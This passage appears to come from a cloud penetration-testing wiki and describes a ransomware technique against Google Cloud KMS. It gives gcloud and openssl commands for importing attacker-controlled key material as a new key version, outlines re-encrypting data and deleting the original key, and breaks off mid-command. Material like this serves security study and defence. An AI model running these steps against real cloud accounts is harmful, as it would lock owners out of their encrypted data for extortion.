 
### KMS Ransomware

In AWS it's possible to completely **steal a KMS key** by modifying the KMS resource policy and only allowing the attackers account to use the key. As these resource policies doesn't exist in GCP this is not possible.

However, there is another way to perform a global KMS Ransomware, which would involve the following steps:

- Create a new **version of the key with a key material** imported by the attacker

```bash
gcloud kms import-jobs create [IMPORT_JOB] --location [LOCATION] --keyring [KEY_RING] --import-method [IMPORT_METHOD] --protection-level [PROTECTION_LEVEL] --target-key [KEY]
```

- Set it as **default version** (for future data being encrypted)
- **Re-encrypt older data** encrypted with the previous version with the new one.
- **Delete the KMS key**
- Now only the attacker, who has the original key material could be able to decrypt the encrypted data

#### Here are the steps to import a new version and disable/delete the older data:

```bash
# Encrypt something with the original key
echo "This is a sample text to encrypt" > /tmp/my-plaintext-file.txt
gcloud kms encrypt \
  --location us-central1 \
  --keyring kms-lab-2-keyring \
  --key kms-lab-2-key \
  --plaintext-file my-plaintext-file.txt \
  --ciphertext-file my-encrypted-file.enc

# Decrypt it
gcloud kms decrypt \
  --location us-central1 \
  --keyring kms-lab-2-keyring \
  --key kms-lab-2-key \
  --ciphertext-file my-encrypted-file.enc \
  --plaintext-file -


# Create an Import Job
gcloud kms import-jobs create my-import-job \
  --location us-central1 \
  --keyring kms-lab-2-keyring \
  --import-method "rsa-oaep-3072-sha1-aes-256" \
  --protection-level "software"

# Generate key material
openssl rand -out my-key-material.bin 32

# Import the Key Material (it's encrypted with an asymetrict key of the import job previous to be sent)
gcloud kms keys versions import \
    --import-job my-import-job \
    --location us-central1 \
    --keyring kms-lab-2-keyring \
    --key kms-lab-2-key \
    --algorithm "google-symmetric-encryption" \
    --target-key-file my-key-material.bin

# Get versions
gcloud kms keys versions list \
```
